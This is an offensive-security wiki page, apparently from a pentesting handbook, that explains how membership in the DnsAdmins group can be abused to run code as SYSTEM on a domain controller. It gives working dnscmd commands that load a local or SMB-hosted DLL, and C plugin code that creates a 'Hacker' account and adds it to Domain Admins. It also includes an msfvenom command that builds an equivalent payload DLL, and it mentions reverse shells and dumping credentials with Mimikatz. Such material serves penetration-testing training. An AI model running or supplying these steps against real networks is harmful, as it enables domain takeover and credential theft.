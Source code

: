 [DEMO VIDEO WITH IPPSEC](https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s)

## DnsAdmins

A user who is member of the **DNSAdmins** group or have **write privileges to a DNS** server object can load an **arbitrary DLL** with **SYSTEM** privileges on the **DNS server**.\
This is really interesting as the **Domain Controllers** are **used** very frequently as **DNS servers**.

As shown in this \*\*\*\* [**post**](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common):

* DNS management is performed over RPC
* [**ServerLevelPluginDll**](https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to **load** a custom **DLL** with **zero verification** of the DLL's path. This can be done with the `dnscmd` tool from the command line
* When a member of the **`DnsAdmins`** group runs the **`dnscmd`** command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
* When the **DNS service is restarted**, the **DLL** in this path will be **loaded** (i.e., a network share that the Domain Controller's machine account can access)
* An attacker can load a **custom DLL to obtain a reverse shell** or even load a tool such as Mimikatz as a DLL to dump credentials.

Get **members** of the group:

```powershell
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```

### Execute arbitrary DLL

Then, if you have a user inside the **DNSAdmins group**, you can make the **DNS server load an arbitrary DLL with SYSTEM privileges** (DNS service runs as `NT AUTHORITY\SYSTEM`). You can make the DNS server load a **local or remote** (shared by SMB) DLL file executing:

```
dnscmd [dc.computername] /config /serverlevelplugindll c:\path\to\DNSAdmin-DLL.dll
dnscmd [dc.computername] /config /serverlevelplugindll \\1.2.3.4\share\DNSAdmin-DLL.dll
```

An example of a valid DLL can be found in [https://github.com/kazkansouh/DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). I would change the code of the function `DnsPluginInitialize` to something like:

```c
DWORD WINAPI DnsPluginInitialize(PVOID pDnsAllocateFunction, PVOID pDnsFreeFunction)
{
		system("C:\\Windows\\System32\\net.exe user Hacker T0T4llyrAndOm... /add /domain");
		system("C:\\Windows\\System32\\net.exe group \"Domain Admins\" Hacker /add /domain");
}
```

Or you could generate a dll using msfvenom:

```bash
msfvenom -p windows/x64/exec cmd='net group "domain admins" <username> /add /domain' -f dll -o adduser.dll
```
